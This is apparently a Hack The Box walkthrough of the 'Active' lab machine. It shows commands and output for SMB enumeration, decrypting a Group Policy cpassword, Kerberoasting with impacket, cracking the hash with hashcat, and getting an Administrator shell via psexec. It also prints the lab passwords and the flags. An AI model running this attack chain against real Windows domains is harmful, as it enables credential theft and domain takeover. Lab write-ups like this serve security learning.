




# Active (Linux)

## Enumeration

### Nmap
I began my enumeration by using an inital (agressive) nmap scan to get results as fast as possible, since some of these boxes may take a while to scan all ports.
```
nmap -p- -Pn -T4 10.10.10.100 --min-rate=5000

-p- for scanning all ports
-Pn for no ping to disable host discovery and port scan only
-T4 for agressive (4 means aggressive, 3 is default) timing; speeds up scanning but can be unreliable
--min-rate=5000 to send packets no slower than 5000 per second; speeds ups canning but can be unreliable
```


I then do a default NSE script with version detection scan on the well-known ports.
```
nmap -sC -sV -p 53,135,139,445,3269 -Pn -T4 10.10.10.100 --min-rate=5000

-sC for default NSE script
-sV for version detection
```


### Smbclient
There's nothing too suspicious, so I try poking around smbclient with anonymous login.
```
smbclient -L 10.10.10.100 -N

-L to list shares on a machine
-N (--no-pass) to suppress the normal password prompt
```


Replication is a non-default share, so I attempt to go into that share with anonymous login, and it works.  
Using `ls` to list the files, I see a Groups.xml file.  
I use `get` to grab the file onto my local machine.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ smbclient //10.10.10.100/replication -N               
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 


smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\preferences\groups\> ls
  .                                   D        0  Sat Jul 21 00:37:44 2018
  ..                                  D        0  Sat Jul 21 00:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 10:46:06 2018

		5217023 blocks of size 4096. 277102 blocks available


smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\preferences\groups\> get groups.xml
```

After downloading the XML file, I use `cat` to read the contents of the file. It appears to be an XML file crated by a new Group Policy Prefernce (GPP) creation.

```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ cat groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Two important points to note:

	• name="active.htb\SVC_TGS"
	• cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"


When a new GPP is created, an associated XML file is created containing the password(s). Microsoft encrypts these passwords using AES and stores it as `cpassword`.  
The username is SVC_TGS and the password is GPP encrypted.

Using gpp-decrypt, I can decrypt the password.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ                                 
GPPstillStandingStrong2k18
```
The password for SVC_TGS is GPPstillStandingStrong2k18.

## Initial Foothold
I can now log into the Users share with the user SVC_TGS, using the newly found password.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ smbclient //10.10.10.100/users -U SVC_TGS
Password for [WORKGROUP\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018

		5217023 blocks of size 4096. 277084 blocks available
```

I `cd` to go into the SVC_TGS directory, `cd` into the desktop, then list the files on the desktop with `ls`.
```
smb: \> cd svc_tgs

smb: \svc_tgs\> cd desktop

smb: \svc_tgs\desktop\> ls
  .                                   D        0  Sat Jul 21 05:14:42 2018
  ..                                  D        0  Sat Jul 21 05:14:42 2018
  user.txt                           AR       34  Wed Nov 29 15:47:53 2023

		5217023 blocks of size 4096. 277084 blocks available

smb: \svc_tgs\desktop\> get user.txt


┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ cat user.txt  
4b88e1b2231905748fb7bd81509eb057
```

## Privilege Escalation
### Kerberoasting
I start by using impacket's GetUserSPNs to get a list of usernames.

```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ sudo impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 10.10.10.100 active.htb/SVC_TGS

-request retrieves the crackable hash by requesting the TGS
-outputfile <filename> saves the request to a file named hashes.kerberoast
-dc-ip <IP> the IP address of the domain controller we want to request info from
```

Using hashcat, I cracked the password with the rockyou.txt wordlist.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt

-m 13100 is Kerberos 5 TGS-REP etype 23
```


^ At the end of that long screenshot, it shows that the password is Ticketmaster1968.  

Using the newly found Administrator credentials, I can use impacket's psexec to log in, use `cd` to move to the desktop, `dir` to list the files, and `type` to view the contents of the root.txt file.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ impacket-psexec Administrator:Ticketmaster1968@10.10.10.100

C:\Windows\system32> cd C:\users\administrator\desktop


C:\Users\Administrator\Desktop> dir

30/11/2023  03:47                   34 root.txt

               1 File(s)             34 bytes
               2 Dir(s)   1.134.878.720 bytes free


C:\Users\Administrator\Desktop> type root.txt
e6c81669f64d0caa52a10c8ac41b8ed2
```

